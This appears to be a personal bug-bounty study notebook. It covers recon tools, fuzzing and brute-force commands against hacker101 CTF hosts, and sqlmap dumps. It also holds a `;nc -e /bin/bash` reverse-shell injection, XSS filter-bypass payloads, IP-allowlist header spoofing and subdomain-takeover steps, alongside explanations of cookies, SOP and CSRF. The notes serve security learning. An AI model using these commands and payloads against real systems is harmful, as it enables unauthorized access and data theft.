

Go to kali
Go to Downloads/Burpsuite
run ./burp.sh

Information about system:
```
echo $SHELL
```


TODO:
	OSWAP tutorials 
	create the bugcrowd account also


Learning
	1. oswap checklist : read the book
		always check the checklist file
	2. tryhackme.com : check the vulnerability here
	3. 

TODO:
	vulnweb.com # labs
COmplete after 3 labs:
	https://portswigger.net/web-security/authentication/password-based


KALI wordlist
Kali-menu > password profiling worklist


## Workflow on hackerone

* tools probe
	httpprobe
	httpx
	gobuster
	fuff command
	anew
	meg or fff # tool for fetching lot of URL and nice to servers

	wayurls
	waybackurls
	juicyurls
	gau
	nuclie: automate the vulnerability detection template using YAML; There is tons of template on github. e.g. log4j nuclie template, --HEADLESS, TCP/TLS/UDP (networks), File
	telenet  : advanced usage

	skipfish # test security for vulnerability : check again and describe more
	awk
	
	https://www.youtube.com/watch?v=J-CMAqFwS4c
	dirsearch ????
	nslookup 
	nmap
	google dork and github dork : google search using site:shopify.com <any-keyword>

	viralmaniar/bigbountyRecon (windows only)
	reconftw github 
	
	```
	gobuster dir -u "https://801792902472a746ea6a94e81c370387.ctf.hacker101.com" -w Downloads/combined_words.txt -t 100 -H 'X-Forwarded-Token:0.0.0.0'

	hydra [-l login| -L file]  [-p pass| -P password] [-u] [-f] [IP address][-s PORT] [Module: remote-http] [module-setting]
	e.g.
		
	sudo hydra -L 10k-usernames.txt -P password-biglist.txt -u -f  801792902472a746ea6a94e81c370387.ctf.hacker101.com  https-post-form "/login:username=^USER^&password=^PASS^:F=invalid" -V -t 64

	
	ffuf
		-mode (clusterbomb|pitchfork) :- all combination are tried, pitchfork: read from all in lock-in state
		-u URL
		-request raw_req.txt
		-reqeust-proto http
		-X Verbname
		-H 'HEADER:VALUE'
		-d '{"UUID":"FUZZ"}' :-  request body data
		-x "http://localhost:8080" :- proxy to localhost/ could be used for burp proxy
		-replay-proxy "http://localhost:8080" :- response proxy to localhost/ could be used for burp proxy

		(response code)
		-mc 200,300-400,all :- all to select everything, request code are matched here
		-fc
		(response size)
		-ms
		-fs
		(number of words)
		-mw
		-fw
		(regex)
		-mr
		-fr
		...and more

		(output type)
		-o filename.txt
		-of (json|ejson|html,csv)

	e.g. always use html output
		[Not working]
		ffuf -v -w wordlist.txt –mode pitchfork -request req.txt -mr all -fr “No updatable fields supplied” -f filename -of json
		
		[working]
		ffuf -v -t 400 -w avatar.txt -mode pitchfork -u https://1ff67aa19a5e2e4f4103674ba4b26edb.ctf.hacker101.com/api/v1/user -X PUT -H 'X-Token: 717ef7cb250baaac386db38ad3817e03' -d 'FUZZ=23' -mc all -fr all -mr all  -o result -of csv
		seq 0 255 > range.txt # Then run ffuf

 		ffuf -w range.txt:FUZZ1 -w range.txt:FUZZ2 -w range.txt:FUZZ3 -w range.txt:FUZZ4  -u https://0bfd51139862b5a11d4fb8d61b7f4465.ctf.hacker101.com/api/v1/secrets  -H "X-Forwarded-For: FUZZ1.FUZZ2.FUZZ3.FUZZ4"  -mode clusterbomb  -v -of html -o results.html -fc 403,404,500

	e.g of telnet
		telnet example.com 80
		GET /
		\n
		\n
	

	grep -hri key | anew | wc
	grep -Hnri 'dg key' | vi -

	nmap has the lot of option to check bugs, using --script option

	
	```
	awk examples:
	```
	awk -F ',' '$1!=3{ print $1, $3}'
	```

	viralmaniar/bigbountyRecon (can be started from the start of recon but in window)
	- configuration to get the robot.txt
	- google dorks
	- xss and open redirects
	- apache strut : if it website link contains .strut, .trq or .do then check for vulnerability and check the exploit using google.com
    	- exploitdb gives use the  exploit payload
  	- 
	
	reconftw [Not working]
	`./reconftw.sh -d target.com -a`

	exploit database: gives the list of all the bugs of the past


	

Famous word dict
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/combined_words.txt
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt?source=post_page-----8001ba11ed9c--------------------------------


While doing file traversing check if the localhost is also getting mapped
?page=http://localhost/index
ref: Cody’s First Blog CTF

###
 find different endpoints
 attack bruteforce on form
 check xss
 check sql injection
 change verb to see if some other methods are exposed (GET, POST, PUT, DELETE)
	for POST FORMS: Content-Type: application/x-www-form-urlencoded
	make sure there is enter at the end of encoding
 check subdomain if present while doing burp proxy and browsing and not present in subdomain enumeration, this could lead to very standout subdomain


### Session token in URL
- If sensitive information is present in URL param, then attacker can get it using refere method
- Session Hijacking ???
- Session fixation: creating the session and then making the user associate this session with his authentication. This happens generally when webapp does not invalidate the existing session while giving associating new session.


### PII (Personal Identifiable Information)
- When user is able to send the request to get/change the data of other user
- It is because of lack of access control on the specific endpoint

when request is allowed for only few IPs and blocker for other, hence use some header
`X-Forwarded-For: IP`


## SQL Injection
sqlmap "http://example.com/page.php?id=1" --dbs # enumerate databases
sqlmap -u "http://example.com/page.php?id=1" --D <DB-NAME> --tables # iterate tables names
sqlmap -u "http://example.com/page.php?id=1" --D <DB-NAME> --dump # iterate tables names
### Sqlite injection
Flat files db are used for small db. Some sqlite commands are
`PRAGMA table_info(<table-name>)`, `.tables`

#### Crack Hash/ password
crackstation.net 


## Reverse shell
To have bash over nc
`;nc -e /bin/bash`
Other ways to have reverseshell is: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Cookie Domain Scope

Domain Scope: When a cookie is set for a domain (like .example.com), it is accessible to all subdomains of that domain (e.g., sub1.example.com, sub2.example.com). This means any subdomain can read the cookie.

1. Parent and Child Domains: Cookies can be set for both a parent domain (e.g., .example.com) and its subdomains. However, a cookie set for one subdomain (like sub1.example.com) cannot be accessed by sibling subdomains (like sub2.example.com).

Example:

If you set a cookie for .example.com, it will be readable by app.example.com, shop.example.com, etc.
But if you set a cookie specifically for shop.example.com, it won’t be accessible to app.example.com.

2. Security Flags

Cookies have optional flags that enhance security. Key flags include:

Secure: When this flag is set, the cookie is only sent to the server over HTTPS, preventing it from being transmitted over an unencrypted connection (HTTP). This ensures that the cookie data is protected from potential interception.

HttpOnly: This flag restricts JavaScript from accessing the cookie via document.cookie, providing protection against Cross-Site Scripting (XSS) attacks. However, while JavaScript cannot read this cookie, it can still set it using document.cookie. Only the server can access it directly.

Example Usage:

If you want a secure, HTTP-only cookie for .example.com, you would set:

http

Set-Cookie: user_session=abc123; Domain=.example.com; Secure; HttpOnly

This configuration ensures:

The cookie is accessible to all subdomains under .example.com.
The cookie is transmitted only over HTTPS.
JavaScript running on the page cannot read the cookie, enhancing security against XSS.

## Html Parsing:
parsing plays a critical role in preventing or exposing vulnerabilities, especially when different systems (like a web application filter and the browser) interpret HTML syntax differently. Here’s a breakdown of your points:
1. Parsing Differences and Vulnerabilities

When a browser and a filter (such as a web application firewall or HTML sanitizer) parse HTML differently, it can lead to vulnerabilities.
For example, if a filter doesn’t recognize non-standard <script/xss> tags as potential script elements but the browser interprets them as such, attackers can bypass the filter, allowing scripts to execute unexpectedly.

2. Example of Filter Bypass with Non-Standard Script Tags

Some filters may only look for the exact string <script> and ignore <script/xss>. However, the browser will attempt to interpret <script/xss> as a regular <script> tag and execute its contents.
Example:

html

<script/xss> alert(1)</script>

Here, a filter might not catch this tag because it’s slightly altered, but the browser can still treat it as JavaScript and execute alert(1), leading to a Cross-Site Scripting (XSS) vulnerability.

3. HTML5 Parsing Rules

HTML5 introduced stricter rules for parsing elements, which affect how browsers handle incomplete or malformed HTML:

Auto-closing of `<script>` Tags: In HTML5, the `<script>` tag is automatically closed at the end of the page if not explicitly closed. This ensures that unclosed `<script>` tags don’t continue to affect the rest of the page’s content.

Angle Bracket Handling: HTML5 will close any open tags at the next angle bracket (>), meaning that tags cannot remain unclosed past the next tag. For example:

html

`<div <span>Text</span></div>`

The browser treats `<div <span>` as if it were just `<div>`, automatically closing it before it reaches `<span>`. This prevents malformed tags from disrupting the document structure.


## Content Sniffing 

is a process where browsers analyze the content of a file to determine its MIME type or character encoding if it's not specified by the server. While content sniffing can improve user experience, it also introduces security vulnerabilities when misused or improperly handled.
1. Content-Type Header and MIME Type

MIME Type: The MIME type tells the browser what kind of file it’s receiving, like text/html for HTML or application/json for JSON. If this information is missing or incorrect, the browser may attempt to "sniff" the content and make an educated guess about the file type.
Security Risks: If the browser guesses incorrectly, it might treat a file as a different type, potentially exposing it to security risks like Cross-Site Scripting (XSS). For instance, if an image or plain text file is interpreted as HTML, it could inadvertently execute malicious code.
To prevent content sniffing vulnerabilities, specify a Content-Type header on all HTTP responses:

http

`Content-Type: text/html; charset=UTF-8`

2. Content-Encoding and Character Encoding

Encoding: Character encoding tells the browser how to interpret bytes in a file as text, like UTF-8 or ISO-8859-1. If the encoding isn’t specified, the browser may use heuristics to guess it, which could lead to misinterpretation and potential vulnerabilities.
Example: If a page includes special characters but doesn’t specify UTF-8 encoding, it may not display correctly. In some cases, encoding issues can enable certain types of injection attacks if the guessed encoding improperly interprets malicious characters.
Specify the encoding to ensure correct interpretation:

html

`<meta charset="UTF-8">`

3. Browser Heuristics for Content Detection

Browsers, especially older versions, use heuristics to determine content types when not explicitly specified by the server. This sniffing behavior aims to improve compatibility but can lead to security issues.
Modern Browsers: They are generally stricter with content sniffing. However, it’s always safer to explicitly specify MIME types and character encodings to avoid relying on browser heuristics.

4. Legacy Content Sniffing Vulnerabilities (IE 6/7 Era Bug)

In the Internet Explorer 6 and 7 era, browsers had aggressive content sniffing behavior that caused a notorious vulnerability. Even if a response was labeled as a non-executable MIME type (like text/plain), the browser might interpret it as HTML or JavaScript if it resembled such content.
Example Vulnerability: A file served as text/plain could be treated as text/html and execute any JavaScript within it. Attackers exploited this by uploading malicious files and forcing browsers to render them as HTML.

To mitigate these issues, modern servers and applications can use the X-Content-Type-Options header:

http

X-Content-Type-Options: nosniff

This header prevents browsers from guessing the content type and forces them to follow the MIME type specified by the server. This header is particularly effective in preventing content-sniffing attacks by restricting the browser’s heuristic behavior.

Summary of Best Practices

Always specify the Content-Type and character encoding for responses.
Use the X-Content-Type-Options: nosniff header to enforce the MIME type.
Ensure older legacy code or applications account for modern content-sniffing security practices to avoid risks, especially with file uploads or user-generated content.


## Same Origin Policy (SOP):
**Same Origin Policy (SOP)** is a critical security feature in web browsers that restricts how content from different origins can interact with each other. Its primary goal is to prevent malicious websites from accessing sensitive data on other domains by enforcing a strict set of rules.

### 1. **Same Origin Policy (SOP) Basics**
- **Purpose**: SOP prevents scripts on one origin (a combination of protocol, domain, and port) from accessing resources or interacting with the DOM of a different origin.
- **Vulnerabilities with Loosening SOP**: When SOP is relaxed or bypassed, it allows cross-origin access, potentially exposing sensitive information to malicious websites. Loosening SOP can enable **Cross-Site Scripting (XSS)** or **Cross-Site Request Forgery (CSRF)** attacks.

### 2. **Cross-Origin Restrictions in AJAX/`XMLHttpRequest`**
- **AJAX (Asynchronous JavaScript and XML)** and `XMLHttpRequest` follow SOP, meaning they can only request resources from the same origin as the web page that loaded them.
- If you attempt an AJAX request to a different origin, the browser blocks it unless that origin allows cross-origin requests via **CORS (Cross-Origin Resource Sharing)**.
- SOP ensures that, by default, you cannot make requests or access responses across domains without explicit permission, reducing the risk of unauthorized data access.

### 3. **Preventing Cross-Domain DOM Access**
- SOP prevents scripts on one domain from directly accessing or modifying the DOM of a page on a different domain. This restriction also applies within frames or iframes embedded on the page.
- **Example**: If `example.com` loads an iframe from `another-domain.com`, JavaScript on `example.com` cannot interact with the DOM of `another-domain.com` unless there’s a mechanism like **postMessage** for secure communication between the two.

### 4. **Origin Matching Requirements**
SOP defines a strict "origin" as a combination of:
- **Protocol**: Must match exactly (e.g., `http://` vs. `https://`).
- **Port Number**: Must also match (e.g., `http://example.com:80` vs. `http://example.com:8080` are considered different origins).
- **Domain Name**: Must match exactly; no wildcards or partial matches are allowed.

Because SOP does not support wildcard matching or subdomain traversal:
- **Subdomain Restriction**: `app.example.com` and `shop.example.com` are treated as separate origins. Even though they share the parent domain `.example.com`, SOP blocks cross-origin access between subdomains.
- **No Wildcard Matching**: You cannot access `*.example.com` if only `example.com` is specified; SOP requires a full domain match.

### 5. **Circumventing SOP for Controlled Cross-Origin Access (CORS)**
- SOP can be loosened in a controlled way through **CORS (Cross-Origin Resource Sharing)**, which allows servers to specify which origins are allowed to access their resources.
- With CORS headers (e.g., `Access-Control-Allow-Origin`), servers can grant specific origins the ability to make cross-origin requests, while still maintaining a level of security.

### Summary
- SOP is a strict policy designed to prevent cross-origin access, protecting resources by requiring an exact match on protocol, port, and domain.
- Attempts to relax SOP should be done cautiously, as loosening it introduces significant security risks.
- **Best Practices**:
- Use CORS when cross-origin requests are necessary, with strict origin specifications.
- Avoid exposing sensitive resources or DOM access to scripts from different origins unless securely controlled with trusted mechanisms like `postMessage` or server-side validation in CORS headers.

## CORS:

...


## CSRF:

Cross-Site Request Forgery (CSRF) attacks exploit the trust a website has in the user's browser, allowing attackers to perform unauthorized actions on behalf of an authenticated user. CSRF protection typically involves including a unique token with every form submission or sensitive request. Let’s break down the points you’ve outlined and clarify potential vulnerabilities:

### 1. **CSRF Token in Every Form (Tied to User Session)**
- CSRF tokens are unique, unpredictable values generated by the server and associated with the user’s session. These tokens are embedded in forms (typically as hidden fields) or included in the headers of requests made by JavaScript.
- When the user submits the form, the server checks if the token matches the one stored for that session. If they match, the request is valid; if they don’t, it’s rejected as potentially malicious.

### 2. **Protecting Only POST Requests**
- CSRF attacks can target **any request that changes the application state** (like updating account details, posting a comment, etc.).
- Often, CSRF tokens are only added to `POST` requests because they are typically associated with data changes. However, if a `GET` request performs a state-changing action, it becomes vulnerable, since it could be automatically triggered (e.g., via `` or an embedded iframe).
- **Best Practice**: Avoid using `GET` requests for actions that modify state (such as deleting an item or changing settings). Use `POST`, `PUT`, or `DELETE` methods for state-changing actions, and ensure all these requests require CSRF tokens.

### 3. **Dynamic CSRF Tokens (Generated on the Server-Side)**
- Generating CSRF tokens server-side is a secure approach, but vulnerabilities can arise if the tokens are not managed carefully. Common issues include:
- **Static or Reusable Tokens**: If a token is generated once and reused for multiple requests or sessions, it becomes predictable and less secure. Attackers could intercept or guess the token if it’s not rotated frequently or if it’s tied to predictable values (like user ID or session start time).
- **Token Stored in Insecure Files**: If CSRF tokens are generated or stored in a public or accessible file on the server (e.g., a JavaScript file served to the client), attackers could retrieve or inspect the file to extract or replicate the token.
- **Predictable Token Generation**: If the token generation algorithm is weak or predictable, attackers could deduce valid tokens without needing access to the session directly.

### 4. **Why CSRF Token Generation in a File is "Broken"**
- If CSRF tokens are generated or stored in a file that can be directly accessed by users (e.g., a JavaScript file), it compromises the integrity of the CSRF protection:
- **Accessibility to Attacker**: If the token is accessible in a file that any user can request, it becomes easier for attackers to obtain it and include it in their forged requests.
- **Static Tokens in JavaScript Files**: If the token in a file is not dynamic (e.g., generated at runtime for each session), it’s ineffective for CSRF protection. Attackers could reuse the token in their own requests.
- **Lack of Session Binding**: A token generated or stored in a publicly accessible file is usually detached from the user’s session, meaning it doesn’t validate that the user originated the request.

### **Effective CSRF Protection Practices**
To secure against CSRF effectively, follow these practices:
- **Generate Tokens Server-Side Only**: Generate tokens dynamically on the server for each session and associate them with that session. Do not store them in client-accessible files.
- **Ensure Token Unpredictability**: Use a strong, random, unpredictable value for each token, rotating it with each session or request if possible.
- **Bind Tokens to Sessions**: Tie tokens to user sessions to ensure they cannot be reused or forged by attackers.
- **Restrict State-Changing Requests to `POST` (or non-`GET` methods)**: Only allow state-changing actions via `POST`, `PUT`, or `DELETE`, and ensure these actions always require a valid CSRF token.

By implementing these techniques, you’ll strengthen your application’s defense against CSRF, reducing the chance of successful exploitation.

## Authorisation

Forced Browser/direct object reference: enumerate values of other user or data
Priviledged action 


## Subdomain takeover
First study the subdomain takeover
- 
  CNAME  help.google.com         thirdparty-domain.com
  use dig command to check for CNAME record
  #### fastest subjack
  `subjack -w live_subdomain_httpx_toolkit -v`
  
  `subzy run --target live_subdomain_httpx_toolkit_subonly`
  ### nuclei
	`nuclei -l live_subdomain_httpx_toolkit -profile subdomain-takeovers`
	- templates present at `~/.local/nuclei-templates`
	- templates repo is given by `projectdiscovery`
  	- nuclei templates are also there

- Use github pages hosting and give the default domain name alias instead of github.io
- check for the subdomain availablility by visiting and seeing that 404 error or something showing it's not mapped
- go to github and add custom domain for the repo with the same subdomain to take over : https://github.com/vishalkc9565/domain-takeover/settings/pages 
- Ref: 
  - https://www.youtube.com/watch?v=ds7GHLXi5dM
  - https://www.hackerone.com/hackerone-community-blog/guide-subdomain-takeovers
- while reporting, host the html page at random location with secret message to present that you found this issue.

- check vulnerable cloud services: 
  	https://github.com/EdOverflow/can-i-take-over-xyz

#### Important commands  
```
dig # to fetch the details of server ip
dig domain-name @8.8.8.8

```
https://0xpatrik.com/subdomain-takeover-ns/

### Process why it occurs

  - Domain name (e.g., sub.example.com) uses a CNAME record to another domain (e.g., sub.example.com CNAME anotherdomain.com).
  - At some point in time, anotherdomain.com expires and is available for registration by anyone.
  - Since the CNAME record is not deleted from example.com DNS zone, anyone who registers anotherdomain.com has full control over sub.example.com until the DNS record is present.

### Escalation of severity
- set of base domain cookie from subdomain will make the base domain cookie to be  modified if the base domain has session fixation vulnerability as given in next section
- CORS resource sharing
- Oauth whitelisting: The danger here once again is when subdomains have been whitelisted and therefore you can redirect users during the Oauth flow to your subdomain, potentially leaking their Oauth token
- CSP: This header is particularly useful if one wants to minimise the impact of cross-site scripting. If your subdomain is included in the whitelist, you can use your subdomain to bypass the policy and execute malicious client-side code on the application.
- clickjacking
- password managers filling form in subdomain and hence getting the creds
- 


## Session fixation
The session fixation attack “fixes” an established session on the victim's browser, so the attack starts before the user logs in.

- Session token in the URL argument
- Session token in a hidden form field
- Session ID in a cookie


## XSS: Cross site scripting:
- Reflected
- Stored
- Dom

Reflected and stored are similar
DOM are browser only vulnerabilities and they does not go to server
using user input, # or query paramenter field directly into dom
use innerText instead of innerHtml to mitigate this

e.g. cheatsheet
"><h1>test</h1>
'+alert(1)+'
"onmouseover="alert(1)
https://"onmouseover="alert(1)


## PATH traversal
Go to different path traversal payload

## Shell command execution/Take over


		


